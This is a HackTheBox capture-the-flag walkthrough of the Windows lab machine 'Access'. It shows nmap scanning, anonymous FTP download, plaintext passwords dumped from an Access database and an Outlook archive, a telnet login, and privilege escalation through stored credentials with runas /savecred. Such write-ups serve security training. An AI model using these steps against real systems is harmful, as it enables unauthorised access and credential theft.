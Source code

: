 ```yaml
---
layout: single
classes: wide
title:  "Walkthrough - Access"
date: 2019-03-11
categories:
    - "hackthebox"
tags:
    - machines
    - windows
    - easy
---
```

This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox.

![banner]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/Access/banner.PNG)

## Unlock and Access!

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```bash
htb@noone:~/Access$ nmap -v -sC -sV -oA nmap/access 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up (0.12s latency).
Not shown: 997 filtered ports

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Well, so we have a few ports open, port 21, 23, 80.

## FTP

I always like to check the low-hanging fruit first. So let's get into FTP since `anonymous` login is allowed. This is a common misconfiguration for FTP logins. You never know what you might find but always is useful.

```bash
htb@noone:~/Access$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:htb): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.

ftp> cd Backups
250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-23-18  08:16PM              5652480 backup.mdb
226 Transfer complete.

ftp> cd ../Engineer
l250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.

ftp> get "Access Control.zip"

ftp> get ../Backups/backup.mdb
```

After exploring the FTP shell, I found two files `backup.mdb` and `Access Control.zip`

A little Google-Fu helped me to figure out what a `mdb` file was and how I could use command-line tools in kali to view the contents.

```bash
htb@noone:~/Access$ mdb-tables backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc
auth_group_permissions auth_message auth_permission - auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS
deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog
ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam
auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate
FaceTempEx FingerVeinEx TEMPLATEEx

htb@noone:~/Access$ mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer" ,"access4u@security" ,1,"08/23/18 21:13:36",26,
28,"backup_admin" ,"admin" ,1,"08/23/18 21:14:02",26,
```

Credentials found for some users. Now let's try to access the zip archive.

I tried to extract te=he archive on Linux, doesn't work. So, I downloaded it on a Windows box and tried to unzip and apparently, it needs a password. Thankfully, we have a list that we just extracted.

After some trial and error, `access4u@security` was the password for the archive. Found a `.pst` file. Again some Google-Fu and I found a way to read the file on linux.

````bash
htb@noone:~/Access$ readpst 'Access Control.pst'

htb@noone:~/Access$cat 'Access Control.mbox'

From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-930452179_-_-"


----boundary-LibPST-iamunique-930452179_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-930452179_-_-"

--alt---boundary-LibPST-iamunique-930452179_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,



The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.



Regards,

John
````

Great! So we have a set of credentials. That was it from FTP, onto the next service which is Telnet on port 23.

## telnet

````bash
htb@noone:~/Access$ telnet -l security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

password:4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security

```snip```
03/12/2019  12:33 PM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
```snip```
2 File(s)          5,198 bytes
14 Dir(s)  16,667,664,384 bytes free
C:\Users\security>cd Desktop

C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security\Desktop
```snip```
08/21/2018  10:37 PM                32 user.txt
```snip```

C:\Users\security\Desktop>more user.txt
f******************************8
````

Excellent! We have our user flag. Onto root.

In the same telnet session, I tried to check ways to privesc.

## Privilege Escalation

```bash
C:\>cmdkey /list

Currently stored credentials:

Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator

C:\>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"

C:\>more C:\Users\security\Downloads\root.txt
6******************************f
```

Voila! We have the root flag as well and we can use this to gain out points on HackTheBox.

The privilege escalation on this box wasn't that complicated if you know what you are doing.

Happy Hacking! Cheers!
